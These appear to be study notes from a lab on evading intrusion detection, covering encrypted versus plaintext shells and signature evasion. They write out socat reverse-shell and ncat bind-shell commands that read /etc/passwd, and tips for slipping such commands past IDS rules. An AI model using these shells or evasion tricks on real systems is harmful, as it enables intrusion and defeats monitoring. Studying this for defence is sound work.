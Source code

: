 However, if the IDS/IPS inspects the traffic, all the packet data will be encrypted. In other words, the IPS will be completely oblivious to exchange traffic and commands such as `cat /etc/passwd`. The screenshot below shows how things appear on the wire when captured using Wireshark. The highlighted packet contains `cat /etc/passwd`; however, it is encrypted.
	![[Pasted image 20240902045551.png]]

As you can tell, it is not possible to make sense of the commands or data being exchanged. To better see the value of the added layer of encryption, we will compare this with an equivalent `socat` connection that does not use encryption.
1. On the attacker’s system, we run `socat -d -d TCP-LISTEN:4443,fork STDOUT`.
2. On the victim’s machine, we run `socat TCP:10.20.30.129:4443 EXEC:/bin/bash`.
3. Back on the attacker’s system, we type `cat /etc/passwd` and hit Enter/Return.

Because no encryption was used, capturing the traffic exchanged between the two systems will expose the commands, and the traffic exchanged. In the following screenshot, we can see the command sent by the attacker.
	![[Pasted image 20240902050200.png]]

### Modify the data
Consider the simple case where you want to use Ncat to create a bind shell. The following command `ncat -lvnp 1234 -e /bin/bash` tells `ncat` to listen on TCP port 1234 and bind Bash shell to it. If you want to detect packets containing such commands, you need to think of something specific to match the signature but not too specific.
- Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
- On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as `ncat  -` which would still run correctly on the target system.
- If the IDS is looking for `ncat`, then simple changes to the original command won’t evade detection. We need to consider more sophisticated approaches depending on the target system/application. One option would be to use a different command such as `nc` or `socat`. Alternatively, you can consider a different encoding if the target system can process it properly.

## **Evasion via Route Manipulation**
Evasion via route manipulation includes:
- Relying on source routing
- Using proxy servers
![[Pasted image 20240902051117.png]]